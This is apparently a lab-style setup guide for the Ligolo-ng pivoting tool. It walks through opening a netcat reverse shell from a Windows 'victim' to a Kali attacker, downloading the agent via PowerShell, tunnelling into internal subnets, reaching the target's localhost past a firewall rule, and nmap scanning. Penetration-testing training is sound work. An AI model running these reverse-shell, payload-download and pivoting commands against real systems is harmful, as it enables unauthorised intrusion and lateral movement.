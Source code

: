 
# Ligolo Setup Guide

## We  got    Agent  and proxy :--

1. Proxy  ⇒  Kali Linux  [ Local pc  ]
2. Agent  ⇒  Target  machines [  Victim ]


 ## Symbols & Notations
- **$** : Turbo User (Non-root user on attacker machine)
- **#** : Root User  (root user on attacker machine)
- **C:\>** : Target Machine (Windows)
- **@** : Reverse Shell of Windows in Attacker End
- **##** : Ligolo-Proxy-Server

## 1 - Place `nc` Binary on Target Machine

Using a Python HTTP server:

```
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Windows\ Binaries]
└─$ python -m http.server 80
```

Access the server from the target machine:

```
http://192.168.1.13
```

---

## 2 - Get a Reverse Shell

Start a listener on port 443:

$
```bash
 nc -nlvp 443
```

On the target machine, run:

```powershell
C:\> nc64.exe 192.168.1.13 443 -e cmd.exe
```

After executing this, the reverse shell will be active on the attacker’s listener.

![image](https://github.com/user-attachments/assets/cd48e5b2-5321-46c6-901a-0440aa837b9b)


---

## 3 - Transfer Ligolo Agent to Target Machine

Start a Python HTTP server:

```bash
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Ligolo_ng/win]
└─$ python -m http.server 80
```

On the reverse shell, download the agent:

```powershell
@ powershell Invoke-WebRequest "http://192.168.1.13/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

Alternative method:

```powershell
@ iwr -uri http://192.168.45.13/agent.exe -Outfile agent.exe
```

Or manually visit:

```
http://192.168.1.13
```

---

## 4 - Start Ligolo Proxy Server on Attacker Machine

Run the following as **root**:
Run on Attacker Box (Kali) with root User (192.168.1.13)

• Create the Ligolo tunnel interface on the attacker system
```
# ip tuntap add user turbo mode tun ligolo
```
![image](https://github.com/user-attachments/assets/b3b79fc3-9e1e-48d6-88c5-eb418294039c)

• Created Ligolo tunnel interface to active
```
# ip link set ligolo up
```
![image](https://github.com/user-attachments/assets/762332d3-7a3d-47bf-8d1e-991dd8c6fc23)

```
# cd /opt/Static\ Binaries/Ligolo_ng/win
```
```
# chmod +x proxy
```

Start the local proxy server:

```
# ./proxy -selfcert -laddr 0.0.0.0:80
```
Other Method
```
# ligolo-proxy -selfcert -laddr 0.0.0.0:80
```

---

## 5 - Start Ligolo Agent on Target Machine

### On Windows

```
@ agent.exe -connect 192.168.1.13:80 -ignore-cert
```

### On Linux

```
@ agent -connect 192.168.1.13:80 -ignore-cert
```

---

## 6 - Configure Network Routing on Attacker Machine

Check agent session:

```
## ligolo-ng » session
```


![image](https://github.com/user-attachments/assets/699f05da-9f93-496c-806e-ab5b21b56cf2)

```
## [Agent : root@webserver] » ifconfig
```
![image](https://github.com/user-attachments/assets/043d0a4f-f96e-4e72-8636-683fb3559ad5)


Add an internal network route:

```
# ip route add 192.168.2.0/24 dev ligolo
```

Verify routes:

```
# route -n
# ip route
```
![image](https://github.com/user-attachments/assets/c7320a87-f891-4583-897c-3ca4e99b7cc6)


Check active tunnels:

```
## [Agent : root@webserver] » tunnel_list
```
![image](https://github.com/user-attachments/assets/79c4ddc4-a94e-476e-bd21-42230fae5ce6)


---

## 7 - Visit Services from Attacker Machine

- **http://192.168.1.20** - Bind in port 80 Apache page
- **http://192.168.2.10** - Bind to site2

  ![image](https://github.com/user-attachments/assets/beec36e4-a763-4bba-bc47-c6ddc01b4430)

- **http://127.0.0.1** - Binnd to site1

---

## 8 - Access Agent’s Local Ports ( 127.0.0.1 )

Link :-  https://github.com/nicocha30/ligolo-ng/wiki/Localhost

 If you need to access the local ports of the currently connected agent, there's a
"magic" CIDR hardcoded in Ligolo-ng: 240.0.0.0/4
This is an unused IPv4 subnet. If you query an IP address on this subnet, Ligolo-
ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
```
# ip route add 240.0.0.1/32 dev ligolo
```

```

# ip route
```
![image](https://github.com/user-attachments/assets/1af2c3e5-fc79-4ecf-abe2-e3c0e61b1e93)

Visit from the attacker machine:

```
http://240.0.0.1
```
![image](https://github.com/user-attachments/assets/b4199875-dd13-4a9a-abff-8947c5c237ec)

Scan the network:

```
# nmap -v -p- -sT 240.0.0.1
```
⇒ When  we Scan  inside the  Target Machine  withthe help of  this  ip  (240.0.0.1) Port no 80 Open 

![image](https://github.com/user-attachments/assets/4f41d77a-ad29-45b0-9a9b-2fae09d4ed21)

⇒ When we  Scan  Outside of the Target Machine  withthe help of ip ( 192.168.1.20 ) Port no 80 Open 

![image](https://github.com/user-attachments/assets/685f1b85-f957-4014-aaa9-d6352576b96c)
 
========================================================

## Firewall in windows :- 
 
 In inbound Rule Block port no 80  which is not listning in nmap output ----

 ![image](https://github.com/user-attachments/assets/60ed9d5e-682d-4dbc-ab94-0da41fda42d1)


⇒ Port no  80 Block  By Firewall  they can't show in nmap output :--
 
 ![image](https://github.com/user-attachments/assets/ce723713-010e-4f0f-a159-908844a8956a)

 
 ⇒ port no 80  is show  in  local host Binding   127.0.0.1  [  240.0.0.1 ]

 ![image](https://github.com/user-attachments/assets/8c99d7c9-dc63-4dd5-a14e-ab7dec0fe8c4)

 
 
 
 

 

